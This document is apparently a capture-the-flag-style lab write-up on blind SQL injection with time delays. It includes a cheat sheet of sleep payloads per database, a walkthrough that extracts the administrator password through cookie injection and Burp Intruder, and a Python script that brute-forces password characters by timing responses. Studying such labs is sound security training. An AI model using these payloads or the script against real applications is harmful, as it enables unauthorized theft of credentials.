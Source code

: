 # Blind SQL Injection with time delays and information retrieval

# Review

In some of the preceding examples, we've seen how you can exploit the way applications fail to properly handle database errors. But what if the application catches these errors and handles them gracefully? Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Cheat sheet

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle | dbms_pipe.receive_message(('a'),10) |
| --- | --- |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT SLEEP(10) |

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| --- | --- |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') |

# Lab Instruction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

# Lab Walkthrough

### Verify database type

Modify the request as:

```
Cookie: TrackingId=none'||pg_sleep(10)--; session=ajlei4zlhDtl54fg149spJ4wwsAEZ0iu
```

Verify that the ****************response**************** is delayed 10 seconds → The target database is **********************PostgreSQL**********************

Let’s concatenate the query with more complex condition

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--;
```

The `%3B` is decoded by `URL` as a semi-colon `;` to avoid separating the query

Verify that the application takes 10 second for the responding → The query is a valid syntax

### Verify username is `administrator`

Modify the query as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Verify it is true

### Find password length

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Increase the number of password length `1` until the application responses immediately

This step could be done manually or using BurpSuite ********Intruder********:

Send the current request to tab ****************Intruder**************** by pressing `Ctrl + I`. Then add the `§` between the `1` :

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Switch to `Resource pool` tab → Select `Create new resource pool` → Enter the name for the pool and **********check********** the box of `Maximum concurrent requests` → Set it value as `1`

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20informati%20images/Untitled.png)

Click `Start attack` → Click on the `Columns` drop-down menu → Click `Response received` (This will represent the number of milliseconds the application took to respond)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20informati%20images/Untitled%201.png)

Once the attack is done → Check out the result and focus on the request which has the `response received` value is smaller than 10000 → At that request’s payload, the application responded immediately → It was a false condition

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20informati%20images/Untitled%202.png)

The request which has payload `20`  → The password’s length is not smaller than `20` → It is equal to `20` → The password has ****20**** characters long

### Explore the password

Modify the request as:

```
Cookie: TrackingId=none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Choose the attack type to `Cluster Bomb` → Go to ****************Payloads**************** tab → Set the payload set 1 (`§1§`) to a N**umber list** from **1** to ****20**** (as the password length) → Set the payload set **2** (`§a§`) to a **********************Simple list********************** which contains lower-case alphanumeric characters

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20informati%20images/Untitled%203.png)

![Untitled](Blind%20SQL%20Injection%20with%20time%20delays%20and%20informati%20images/Untitled%204.png)

Click ************************Start attack************************ and wait for awhile → Combine all of the **characters in payloads** of the ****************requests**************** that took more than 10000 millisecond for ********************responding******************** 

Use the password to login as `adminsitrator` and solve the lab

Or you can use this [source code](Blind_SQL_Injection_with_Time_delay_and_Conditional.py) to solve this manually by replacing the position of the password characters

```python
import requests

s = requests.Session()

url = "https://0aa7005904e463c481bb4d7c00370004.web-security-academy.net/login" # Change this
# original cookie
cookie = {"TrackingId":""}
# payload
p = "none'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='@') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--"

wordlist = 'qwertyuiopasdfghjklzxcvbnm0987654321'

for char in wordlist:
	new_p = p.replace('@', char)
	cookie['TrackingId'] = new_p
	print(f"Send request with payload {char}")
	res = s.get(url,cookies=cookie)
	if res.elapsed.total_seconds() > 10:
		print(f"[+] Character {char} found!")
		with open('password.txt', 'a') as f:
			f.write(char)
			print("Char has been written")
		break
print("Increase the password position for the next request")
```